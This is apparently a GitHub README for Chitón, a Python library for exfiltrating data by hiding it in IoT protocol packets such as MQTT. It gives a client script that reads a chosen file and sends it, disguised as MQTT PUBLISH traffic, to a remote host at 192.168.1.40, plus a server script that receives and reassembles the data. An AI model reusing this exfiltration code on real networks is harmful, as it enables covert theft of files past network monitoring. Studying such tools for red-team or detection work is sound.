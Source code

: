 # Chitón

![Chitón (Los caprichos) - Francisco de Goya](https://drive.google.com/uc?export=view&id=1yXGYiMW7CumDmnjg0zEu51syuJh21bjY)

[`Chiton`](https://dle.rae.es/?w=chit%C3%B3n) is a Python library to exfiltrate data encapsulating the data into IoT protocol’s packets. The library allows you to encapsulate/de-encapsulate binary data into/from a protocol packets, and send/receive protocol packets to another host over Internet.

[![License: AGPL v3](https://img.shields.io/badge/License-AGPL_v3-blue.svg)](https://www.gnu.org/licenses/agpl-3.0)

## Dependencies

`Chiton` relies on [Scapy Project](https://scapy.net/) to encapsulate/de-encapsulate binary data. It can be installed by the following command:

```Shell
$ python3 -m pip install scapy
```

## Example of Usage

`Chiton` is designed to be imported as a library in any project, and it follows the client/server model. The client is responsible of exfiltrate data:

```Python
import sys

import chiton.network.client as client
import chiton.protocol.mqtt as mqtt

def main(filename):
    protocol = mqtt.MQTT(mqtt.PUBLISH)
    mqtt_client = client.Client(protocol, '192.168.1.40')
    data = read_file(filename)
    mqtt_client.send(data)

def read_file(filename):
    with open(filename, 'rb') as f:
        return f.read()

if __name__ == '__main__':
    main(sys.argv[1])
```

In this example, the file to exfiltrate is passed as argument to the script, which reads it as binary data. The chosen protocol in this case is MQTT with the packet type PUBLISH, and this protocol is used to create a client object willing to communicate with the host at address `192.168.1.40`. Finally, the data to exfiltrate is simply sent to the desired host calling the send function with the data as parameter, and the library handles the encapsulation of the data into the protocol’s packet payload.

```Python
import chiton.network.server as server
import chiton.protocol.mqtt as mqtt

def main():
    protocol = mqtt.MQTT(mqtt.PUBLISH)
    mqtt_server = server.Server(protocol)
    data = mqtt_server.recv()
    write_file(data, 'output.bin')


def write_file(data, filename):
    with open(filename, 'wb') as f:
        f.write(data)

if __name__ == '__main__':
    main()
```

In the other side of the communication, the example server script should be running. The workflow is similar to the client, as the server needs to specify the protocol used for data transfer, and data is finally received. The library automatically de-encapsulates the packet payload to reassemble the original payload, ready to be saved into a file.

## License

Licensed under the [GNU AGPLv3](LICENSE) license.
